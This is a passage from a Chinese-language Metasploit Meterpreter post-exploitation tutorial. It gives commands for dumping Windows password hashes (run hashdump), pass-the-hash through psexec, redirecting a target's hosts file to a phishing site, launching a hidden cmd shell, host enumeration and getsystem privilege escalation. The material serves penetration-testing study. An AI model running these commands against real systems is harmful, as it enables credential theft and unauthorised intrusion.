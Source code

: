 在拿到system权限下，使用该命令，可以查看系统账号密码的hash值，在cmd5在线破解网站可以尝试破解，或者采用后面的Mimikatz模块尝试爆破

②：使用hashdump脚本

命令：run hashdump

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418257587-089e4c08-1d75-4baf-a5b6-ee0c424fed7e.png)

post/windows/gether/hashdump模块：获取系统所有的用户名和密码哈希值

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595419439108-4170f380-ac75-43b0-a637-18edc313d1f1.png)

获取安全账户的账号管理器SAM数据库，我们需要运行在System权限下（use priv），以求绕过注册表的限制，获得受保护的用户和密码的SAM存储。

> use priv 命令：意味着运行在特权账号上
>

哈希值解析：

> 以 aad3b435 开头的哈希值是一个空的或不存在的哈希值（空字串的占位符）。
>

传递哈希值：

> 用哈希值传递技术，用psexec模块就可以实现，
>

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595419577155-3bee9e1d-1dd7-4861-8831-bec688732da6.png)

### 5：edit命令
调用vi编辑器，对目标主机上的文件修改

例如修改目标主机上的hosts文件，使得目标主机访问baidu时去到准备好的钓鱼网站

### 6：execute命令
在目标主机上运行某个程序 结合参数-H使用可以隐藏在后台打开程序

例：命令：execute -H -i -f cmd.exe 相当于获取shell，使用shell

### 7：信息收集
run post/windows/gather/enum_applications：获取目标主机上的软件安装信息

run post/windows/gather/dumplinks：目标主机上最近访问过的文档和链接信息

查看目标主机是否为虚拟机

run post/windows/gather/checkvm #是否虚拟机

run post/linux/gather/checkvm #是否虚拟机

### 8：权限提升
先输入getuid查看已获得的权限

尝试使用getsystem提权（倘若失败，只能使用内核漏洞提权）

### 9：漏洞提权：
①：使用命令：getsystem提权
